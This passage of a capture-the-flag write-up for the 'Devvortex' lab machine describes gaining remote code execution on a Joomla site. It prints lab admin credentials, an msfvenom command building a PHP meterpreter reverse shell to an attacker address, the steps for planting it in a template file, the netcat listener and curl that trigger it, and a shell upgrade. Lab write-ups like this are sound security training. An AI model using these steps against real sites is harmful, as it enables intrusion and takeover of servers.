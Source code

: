 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
user	"lewis"
password	"P4ntherg0t1n5r3c0n##"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Now that i'm able to login, I can gain RCE by adding a PHP payload to the template (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)

Created a PHP payload using msfvenom

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/htb/devvortex/files]
└─$ msfvenom -p php/meterpreter LHOST=10.10.14.107 LPORT=1234 -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 2997 bytes
Saved as: shell.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Heading to *Sytem* > *Site Templates* > *Cassiopeeia Details and Files*
Opened `error.php`, and replaced the contents of the whole file with what's in shell.php

Listen on port 1234

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ..
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Now if I curl, we get a shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Upgrading the shell to an interactive one

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.107] from (UNKNOWN) [10.129.240.236] 50866

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Upgrade shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 -c 'import pty;pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Found `configuration.php` file in *www*
It has Mysql info
